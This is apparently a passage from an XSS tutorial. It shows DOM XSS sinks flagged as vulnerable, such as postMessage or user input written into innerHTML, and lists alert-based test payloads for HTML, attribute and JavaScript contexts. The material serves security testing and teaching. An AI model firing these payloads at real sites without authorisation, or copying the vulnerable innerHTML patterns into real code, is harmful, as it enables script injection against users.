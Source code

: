 #### Advanced DOM XSS Techniques
```javascript
// PostMessage XSS
window.addEventListener('message', function(e) {
    document.getElementById('content').innerHTML = e.data; // Vulnerable
});

// Attack from iframe
parent.postMessage('<script>alert("XSS")</script>', '*');

// JSON parsing XSS
var data = JSON.parse(userInput);
document.getElementById('output').innerHTML = data.message; // Vulnerable

// Template literal XSS
var template = `Hello ${userInput}`; // Can be vulnerable
document.getElementById('greeting').innerHTML = template;

// Event handler XSS
element.setAttribute('onclick', userInput); // Dangerous
```

## 🔍 Detection Techniques

### 1. 🎯 Manual Detection

#### Basic XSS Test Payloads
```html
<!-- Simple alert tests -->
<script>alert('XSS')</script>
<script>alert(1)</script>
<script>alert(document.domain)</script>

<!-- Image-based tests -->
<img src=x onerror=alert('XSS')>
<img src="x" onerror="alert('XSS')">
<img/src="x"/onerror="alert('XSS')">

<!-- SVG-based tests -->
<svg onload=alert('XSS')>
<svg><script>alert('XSS')</script></svg>
<svg onload="alert('XSS')"></svg>

<!-- Event handler tests -->
<body onload=alert('XSS')>
<div onclick=alert('XSS')>Click me</div>
<input onfocus=alert('XSS') autofocus>
```

#### Context-Specific Payloads
```html
<!-- HTML context -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

<!-- Attribute context -->
" onmouseover="alert('XSS')
' onmouseover='alert('XSS')
javascript:alert('XSS')

<!-- JavaScript context -->
';alert('XSS');//
';alert('XSS');var a='
```